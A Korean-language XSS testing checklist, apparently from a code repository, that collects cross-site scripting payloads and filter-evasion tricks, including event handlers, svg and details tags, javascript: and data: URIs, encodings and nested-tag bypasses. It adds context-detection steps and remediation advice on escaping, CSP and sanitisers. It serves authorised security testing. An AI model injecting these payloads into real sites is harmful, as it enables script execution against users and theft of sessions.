 # XSS 점검 가이드 & 페이로드 모음 (Markdown 버전)

보안 점검 시 활용할 수 있는 **XSS 페이로드**, **점검 절차**, **대응 방안**을 한 문서로 정리했습니다.  
모든 예시는 **합법적이고 승인된 환경**에서의 연구/내부 점검 목적에만 사용하세요.

---

## 목차
- [개요](#개요)
- [추천 페이로드](#추천-페이로드)
- [점검 방법](#점검-방법)
- [상황별 점검 포인트](#상황별-점검-포인트)
- [패킷 관점 체크](#패킷-관점-체크)
- [대응 방안](#대응-방안)
- [유의 사항](#유의-사항)
- [참고](#참고)

---

## 개요
- 입력값이 **어느 컨텍스트**에 들어가는지(태그/속성/스크립트/URL 등)를 먼저 파악한 뒤, 해당 컨텍스트에서 **실행 가능**한 최소 페이로드부터 시도합니다.
- **패턴 기반 필터**만 믿지 말고, 아키텍처적으로 **신뢰되지 않은 입력을 HTML로 렌더링하지 않는** 방향을 우선 검토하세요.

> **주의**  
> 본 문서는 예시를 **코드 블록**으로만 제공합니다(자동 실행 없음). 승인되지 않은 시스템에 대한 테스트는 불법입니다.

---

## 추천 페이로드

### 1) 기본 테스트
```html
<script>alert(1111)</script>
```

### 2) `<script>` 태그가 차단될 때
```html
<details onpointerover=confirm(1111)></details>
```

### 3) 속성 값(value) 내부 삽입 (동작 유발 필요)
```html
" onkeydown=confirm(1111) contenteditable onfocus
```

### 4) 공백이 차단될 때
```html
<svg/onload=confirm(1111)/>
```

### 5) Polyglot XSS (컨텍스트 다중 호환)
> 여러 컨텍스트에서 동시에 유효하게 해석되도록 설계한 페이로드.  
> 프로젝트 성격에 맞춰 별도 섹션으로 확장하세요.

---

## 점검 방법

### A. 입력값 위치(컨텍스트) 파악
- **태그 속성 내부**
  ```html
  <input type="text" value="입력 값">
  ```
  따옴표 종료 후 이벤트 삽입:
  ```html
  <input value="test" onpointerover=confirm(1111)>
  ```

- **태그 외부(본문 영역)**
  ```html
  <a href="test.com">텍스트</a><script>alert(1111)</script>
  ```

### B. 필터링/치환 패턴 식별 및 우회
- 특수문자 제한(`"`, `<`, `(`, `=` 등) 시 **인코딩/대체 문자** 활용
- 이벤트 핸들러 제한(`onload`, `onerror` 등) 시 **대체 핸들러** 검토(예: `onpointerover`, `onkeydown`)
- `<script>` 차단 시 **대체 태그/기능** 활용
  ```html
  <svg onload=confirm(1111)>
  ```
  ```html
  <meta http-equiv="refresh" content="0;url=data:text/html,<script>alert(1111)</script>">
  ```

- **삭제/치환 기반 필터** 우회
  ```html
  <scr<script>ipt>alert(1111)</scr<script>ipt>
  ```

- **알림창 함수 필터링** 우회(속성/객체 경유)
  ```html
  <svg onload="window "/>
  ```

### C. 추가 문자열 주입(접두/접미) 대응
- 뒤에 문자열이 붙는 경우: `<!--` 등 **주석 처리**로 종료
- 앞에 붙는 경우: **태그 닫기** 후 새로운 구문으로 이탈

---

## 상황별 점검 포인트

- **특수문자 필터링**: `"`, `'`, `<>`, `()`, `:`, `=`
- **응답 맥락 탈출**: `" />`, `</script>` 등으로 컨텍스트 이탈 가능성 확인
- **대소문자 혼용**: `<sCriPt>` 등
- **이벤트 핸들러 필터링**: `onload`, `onerror`, `onclick` 차단 시 `ondrag`, `onfocus`, `onpointerover` 등 대체 검토
- **인코딩 시도**
  - URL: `%3Cscript%3E`
  - 유니코드: `<`
  - HTML 엔티티: `&#x3C;`
  - Base64: `data:text/html;base64,...`
- **태그 필터링 우회**: `<script>`, `<img>`, `<svg>` 차단 시 `<details>`, `<object>`, `<embed>` 등
- **하이퍼링크 기반**
  ```html
  <a href="javascript:confirm(1)">Click</a>
  ```
- **폼 전송 기반**
  ```html
  <form action="data:text/html,<script>alert(1111)</script>">
    <input type="submit">
  </form>
  ```
- **공백 필터링 우회**: `<svg/onload=...>` (환경/브라우저 의존성 주의)
- **hidden 필드 탈출 / iframe·object·embed·meta의 `data:` 스킴 활용** (환경 의존)

<details>
<summary><strong>추가 사례 모음 (접기/펼치기)</strong></summary>

- 알림창 전부 필터링 시 **리다이렉트/네비게이션** 등 대체 효과 검토  
  ```html
  <img src=x onerror="location.href='https://example.org'">
  ```

- `()` 필터링 시 **백틱** 활용 가능한지 확인  
  ```html
  alert`1`
  ```

- **응답 값 뒤에 문자열이 붙어 실패**할 때: 주석/닫기 태그로 무력화  
  ```html
  <img src onerror=prompt(1)<!--
  ```

- `<` 치환 시 앞에 `<` 추가 시도  
  ```html
  <x<svg/onload=prompt(1)/>/>
  ```
</details>

---

## 패킷 관점 체크
- **`location.hash` 사용 여부**: 응답 내 해당 참조가 있으면 `#<payload>`로 DOM XSS 가능성
- **POST→GET 변환**: 동일 파라미터가 GET으로도 반영되는지 확인 (렌더링 경로 차이로 성공 가능성↑)
- **전송 패킷엔 없지만 응답에 페이로드가 존재**: 응답에 있던 값을 **직접 전송**하여 반영되는지 재확인

---

## 대응 방안 (필수)
- **출력 이스케이프**: 컨텍스트별 적절한 이스케이프 적용
- **CSP(Content Security Policy)**: 스크립트 소스/인라인 제한, 보고 엔드포인트 설정
- **Sanitizer 적용**: 검증된 라이브러리(예: DOMPurify) 사용
- **아키텍처 개선**: 신뢰되지 않은 입력을 HTML로 렌더링하지 않도록 템플릿/렌더 경계 재설계

> **권장**  
> 패턴 기반 필터에만 의존하지 말고, **출력 컨텍스트 보안**과 **CSP**를 병행하세요.

---

## 유의 사항
- 고객사/사내 식별 가능 정보(도메인, 스크린샷, 내부 경로, 로그 등)는 **공개 저장소에 포함하지 마세요**.
- Git 이력(History)에 남은 민감 정보는 **레포 삭제/히스토리 재작성** 없이 완전 제거되지 않을 수 있습니다.

---

## 참고
- PortSwigger XSS Cheat Sheet  
  https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---

© 2025 XSS Checklist · 연구/내부 점검 용도
